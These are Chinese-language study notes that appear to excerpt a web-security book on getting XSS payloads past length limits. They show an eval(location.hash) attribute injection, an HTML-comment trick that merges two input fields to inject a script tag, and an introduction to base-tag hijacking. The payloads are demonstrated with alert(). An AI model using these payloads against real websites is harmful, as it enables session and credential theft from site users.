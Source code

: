 但利用“事件”能够缩短的字节数是有限的。最好的办法是把XSS Payload写到别处，再通过简短的代码加载这段XSS Payload。

 2016-04-06

最常用的一个“藏代码”的地方，就是“location.hash”。而且根据HTTP协议，location.hash的内容不会在HTTP包中发送，所以服务器端的Web日志中并不会记录下location.hash里的内容，从而也更好地隐藏了黑客真实的意图。

```
$var 输出为： " onclick="eval(location.hash.substr(1))


```

总共是40个字节。输出后的HTML是：


```
<input type="text" value="" onclick="eval(location.hash.substr(1)) " />因为location.hash的第一个字符是 # ，所以必须去除第一个字符才行。此时构造出的XSS URL为：
http://www.a.com/test.html#alert(1)

```
用户点击文本框时，location.hash里的代码执行了。

 2016-04-06

location.hash本身没有长度限制，但是浏览器的地址栏是有长度限制的，不过这个长度已经足够写很长的XSS Payload了。要是地址栏的长度也不够用，还可以再使用加载远程JS的方法，来写更多的代码。
在某些环境下，可以利用注释符绕过长度限制。
比如我们能控制两个文本框，第二个文本框允许写入更多的字节。此时可以利用HTML的“注释符号”，把两个文本框之间的HTML代码全部注释掉，从而“打通”两个<input>标签。


```
<input id=1 type="text" value="" />
xxxxxxxxxxxxx
<input id=2 type="text" value="" />
在第一个input框中，输入：
 "><!--
在第二个input框中，输入：--><script>alert(/xss/);</script>
最终的效果是：
<input id=1 type="text" value=""><!--" />
xxxxxxxxxxxxxxxxx
<input id=2 type="text" value="--><script>alert(/xss/);</script>" />
中间的代码全部被
<!--  … -->

```

给注释掉了！

 2016-04-06

而在第一个input框中，只用到了短短的6个字节！

2016-04-06


```
使用<base>标签
<base>标签并不常用，它的作用是定义页面上的所有使用“相对路径”标签的hosting地址。
比如，打开一张不存在的图片：
<body>
<img src="/intl/en_ALL/images/srpr/logo1w.png" />
</body>
测试页面
这张图片实际上是Google的一张图片，原地址为：http://www.google.com/intl/en_ALL/images/srpr/logo1w.png
在<img>标签前加入一个<base>标签：
<body>
<base href="http://www.google.com" />
<img src="/intl/en_ALL/images/srpr/logo1w.png" />
</body>
<base>标签将指定其后的标签默认从“http://www.google.com”取URL：
```